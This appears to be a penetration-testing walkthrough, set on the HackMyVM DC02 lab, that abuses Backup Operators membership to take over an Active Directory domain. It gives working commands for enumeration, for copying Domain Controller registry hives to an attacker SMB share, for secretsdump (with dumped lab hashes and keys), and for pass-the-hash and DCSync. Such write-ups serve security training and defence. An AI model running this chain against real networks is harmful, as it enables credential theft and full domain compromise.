 This attack demonstrates how a **Backup Operators** group membership can be abused to escalate privileges from a low-privileged domain user to full **Domain Administrator** compromise.

---

## Why Backup Operators is Dangerous

- Members of the **Backup Operators** group are granted the ability to **bypass file system ACLs** for backup and restore operations on a Domain Controller.

- This includes the ability to:
    
    - Read **registry hives** (`SAM`, `SYSTEM`, `SECURITY`) on a Domain Controller.
        
    - Access sensitive files (e.g., `NTDS.dit`) if reachable.
        
- Although not a Domain Admin group, **Backup Operators** effectively allows **offline credential extraction** because registry hives contain the boot key and local secrets.


---

## Attack Process
> For this example the environment from [DC02-HackMyVm](https://hackmyvm.eu/machines/machine.php?vm=DC02) will be used.

**Step 1: Identify Group Membership**
```bash
ldapsearch -x -H ldap://<DC_IP>/ -D "zximena448@SOUPEDECODE.LOCAL" -w 'internet' \
  -b "dc=SOUPEDECODE,dc=LOCAL" "(sAMAccountName=zximena448)" memberOf

## Result
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL
```

This can also be seen with Bloodhound:

![](../../Images/backup_operators_pe_example_group_member.png)

**Step 2: Prepare SMB Server**  
You need to set up a writable SMB share to receive dumped registry files:

```bash
mkdir smbshare
impacket-smbserver -smb2support share ./smbshare
```

**Step 3: Trigger Registry Backup on the DC**  
Use the [backup_dc_registry](https://github.com/horizon3ai/backup_dc_registry)
```bash
python3 reg.py zximena448:'internet'@<domain_ip> backup -p '\\<attack_ip>\share'
```
This instructs the Domain Controller to perform a backup and write the **SAM**, **SYSTEM**, and **SECURITY** hives to the attacker’s SMB share.


**Step 4: Extract Local Hashes**  
The downloaded registry hives are parsed locally to extract hashes:
```bash
impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL
```

This yields:

- Local Administrator NTLM hash
- Machine account secrets (`$MACHINE.ACC`)
- LSA secrets and cached credentials
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies [*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::[*] Dumping cached domain logon information (domain/username:hash)[*] Dumping LSA Secrets[*] $MACHINE.ACC $MACHINE.ACC:plain_password_hex:71ba05e6c76aad65757f5e38952ffef688c7c9340677582e26e7cb12fab5f10378070635b962da92750fe273aa4155b9bcd0df33ae0867ea34c1261d9a3b16176af648e7d99b73d21b88d10d4dc89f48d808ac86d5b998a32925337f79ef1deb50b80812d1fb07b85d18ee4662d9eb97254cdaff9029602bf0e08a5d7de0dcff1a2048ab8bec9a3f53580292476e9a9c4699e0eaac59eb2cf537873b52981d9c288abc5fc6546d575df929be7b0e21d03c225f9a798b92a70bebdf6ab9a110d70f7302f8a5572c6bc01a07588e60d2ca2f042a1e8e710b578a9a5904e22f3a914f4f625c18c584e1e33955fe1fa9a7a1$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d147f41261ce2cf5e402a8de546323e1[*] DPAPI_SYSTEM dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503[*] NL$KM  0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../... 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!. 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c. 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
```

With this, we can confirm that the process worked and we obtained the password hashes of those users, but only **from the local system**.  
What we actually want are the **domain password hashes** of those same users.  
The hash we are most interested in is the one belonging to the **Domain Controller**, and the most promising candidate for that is the **$MACHINE.ACC** account.  
Therefore, we will now test which user from the previously gathered list this hash belongs to.

>**$MACHINE.ACC hash** 
>The machine account (the computer object of the Domain Controller in Active Directory).  This account automatically exists for every domain-joined host and uses a randomly generated password.  
  Its NTLM hash can be reused to authenticate to the domain just like a normal user.  
  If this is the **Domain Controller’s machine account**, it often has privileges to replicate the Active Directory database, making it extremely valuable.
    


**Step 5: Validate the DC Machine Account Hash**  
Use the machine account hash to attempt SMB authentication across the domain:
```bash
nxc smb <domain_ip> -u users.txt  -H 'hash'
```

**Step 6: Dump Domain Credentials**  
With the machine account hash, the attacker can use **DRSUAPI** replication privileges to extract the **NTDS.dit** database containing all domain password hashes:
```bash
impacket-secretsdump '<domain>/<user>$@<DC_IP>' \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>'
```